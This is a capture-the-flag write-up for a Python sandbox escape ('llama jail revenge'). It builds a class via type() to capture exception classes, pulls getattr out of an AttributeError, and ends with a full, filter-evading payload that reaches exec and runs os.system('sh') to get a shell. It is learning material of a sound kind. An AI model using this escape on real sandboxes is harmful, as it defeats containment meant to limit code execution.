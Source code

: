 # llama jail revenge

## challenge

llama-jail-1 had a funny. To people planning to use other libraries in ctf challs, don't be me and not read the code used LOL.

see [llama-jail-revenge.zip](./llama-jail-revenge.zip)

## solution

i recommend checking out [llama-jail](../llama-jail) first

so this revenge chall was created because the first one used iter_child_nodes instead of walk

i had no clue what to do at first, mostly because the `_` char is blocked which makes this a lot lot harder.

also no-one was able to solve this challenge so there was a hint released for it, stating the following

```
HINT: type is pretty good, wonder if we can somehow get exception classes from that
```

now, the dockerfile stated that the version of python used was 3.12, which introduced the new type keyword. i tried this for a few hours but then gave up

i also saw the type function, and also assumed that to be useless since nothing we could access had a type that inherited from exception

however, the type function actually has a second use, which is that it can be used to construct arbitrary classes (sort of)

`help(type)` shows the following

```py
Help on class type in module builtins:

class type(object)
 |  type(object) -> the object's type
 |  type(name, bases, dict, **kwds) -> a new type
```

interestingly, we can use the `dict` param of the type fn with 3 args to get arbitrary setattr on a new object. with this, we can overwrite the dunder methods of the new object.

lets take a look at [all the dunder methods](https://www.pythonmorsels.com/every-dunder-method/)

oh hey look at this

![image](https://github.com/quasar098/pyjail-collection/assets/70716985/b485779e-f742-4a40-b52e-874c6d744c63)

so if we overwrite the enter function to be some lambda, and the exit function to also be a lambda that lets us get the exception class, we can get further in this jail.

```py
stuff = []

newtype = type("newtype", (), {"\x5f\x5fexit\x5f\x5f": lambda self,a,b,c: [False, stuff.append(type.mro(type(b))[2]), stuff.append(type.mro(type(b))[-1])][0], "\x5f\x5fenter\x5f\x5f": lambda self: self})

try:
    with newtype() as newobj:
        1/0
except:
    pass

exception, obj = stuff
```

i use the `\x5f` in the strings above because no `_` are allowed

i knew that once we get exception classes, it is super easy to win because of this trick i learned while doing pyquinejailgolf in amateursctf i think it was

the trick is that we can use the attributes of an AttributeError object when doing a format string in python

```py
try:
    "{0.__getattribute__.q}".format(object)
except Exception as e:
    print(dir(e))
```

the above prints out the below

```py
['__cause__', '__class__', '__context__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__setstate__', '__sizeof__', '__str__', '__subclasshook__', '__suppress_context__', '__traceback__', 'add_note', 'args', 'name', 'obj', 'with_traceback']
```

there is an attribute called obj which is the object we tried to access the attribute of.

so, we now have getattr and winning is super easy with a standard pyjail escape

```py
stuff = []

newtype = type("newtype", (), {"\x5f\x5fexit\x5f\x5f": lambda self,a,b,c: [False, stuff.append(type.mro(type(b))[2]), stuff.append(type.mro(type(b))[-1])][0], "\x5f\x5fenter\x5f\x5f": lambda self: self})

try:
    with newtype() as newobj:
        1/0
except:
    pass

exception, obj = stuff

try:
    "{0.\x5f\x5fgetattribute\x5f\x5f.q}".format(obj)
except exception as e:
    ga = e.obj
    print(ga(ga([q for q in ga(obj, "\x5f\x5fsub\x63lasses\x5f\x5f")() if "warning" in f'{q}'][-1], "\x5f\x5finit\x5f\x5f"), "\x5f\x5fglobals\x5f\x5f")["\x5f\x5fbuiltins\x5f\x5f"]["exec"]("import os\nos\x2esystem('sh')"))
#EOF
```

then we have a shell and can retrieve the flag
